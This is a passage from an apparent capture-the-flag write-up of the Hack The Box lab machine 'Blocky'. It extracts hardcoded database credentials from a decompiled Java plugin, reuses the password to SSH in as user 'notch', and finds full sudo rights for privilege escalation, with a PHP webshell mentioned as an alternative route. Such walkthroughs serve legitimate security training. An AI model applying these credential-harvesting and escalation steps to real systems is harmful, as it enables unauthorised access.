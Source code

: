 ```console

    public void sendMessage(String s, String s1)
    {
    }

    public String sqlHost;
    public String sqlUser;
    public String sqlPass;
}
``` 
<div class="notice--info">
  <h4>Note:</h4>
  <p> <b>jad</b> produces a file called <b>BlockyCore.jad</b> which I just printed out using <b>cat</b> </p>
</div>

My assumptions were correct and we successfully extracted some database credentials. 
```console
sqlHost = "localhost";
sqlUser = "root";
sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
```
There are two main ways one can go from here on - change the wordpress password of **notch** via */phpmyadmin/* and upload a php webshell OR simply use the gained credentials to SSH into the box. To my knowledge only the second options works because php web shell won't allow you to escalate privileges (correct me if I'm wrong though)! 

```console
root@EdgeOfNight:~# ssh notch@10.10.10.37

notch@10.10.10.37's password: 8YsqfCTnvxAUeduzjNSXe22
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Fri Dec  8 10:39:57 2017 from 10.10.14.217
notch@Blocky:~$
```

Now go and get that user flag!

***

# Privilege escalation
Simply do `sudo -l` which reveals that our user can run any command with sudo privileges:
```console
notch@Blocky:~$ sudo -l
[sudo] password for notch: 8YsqfCTnvxAUeduzjNSXe22
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```
